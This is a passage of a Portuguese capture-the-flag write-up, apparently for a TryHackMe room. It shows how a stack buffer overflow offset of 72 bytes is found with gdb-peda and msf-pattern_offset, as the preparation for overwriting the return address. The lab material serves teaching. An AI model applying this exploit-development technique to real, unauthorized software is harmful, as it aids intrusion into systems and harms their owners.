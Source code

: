 <img src="/img/thm/thm-anonymousplayground-11.png">

O comanro `r`, roda o programa, e quando ele solicitar o buffer, enviamos nosso pattern.
O programa vai parar como esperado, para encontrarmos o valor dentro de `RSP`, podemos usar o comando `x\gx $rsp`.

```bash
gdb-peda$ x/gx $rsp
0x7fffffffdf68: 0x6341356341346341
```
Temos como resposta o valor `0x6341356341346341`, vamos pesquisar este valor com o `msf-pattern_offset`.

```bash
┌──(hastur㉿hastur)-[~/Desktop]
└─$ msf-pattern_offset -l 100 -q 6341356341346341
[*] Exact match at offset 72
```

Encontramos o offset de 72, o que segnifica que se enviarmos um buffer de 72 caracteres, os próximos 6 vão preencher o endereço de retorno.
Podemos fazer um teste, enviando um buffer de 72 As e + 6 Bs, e verificar se o RIP foi preenchido pelos B.

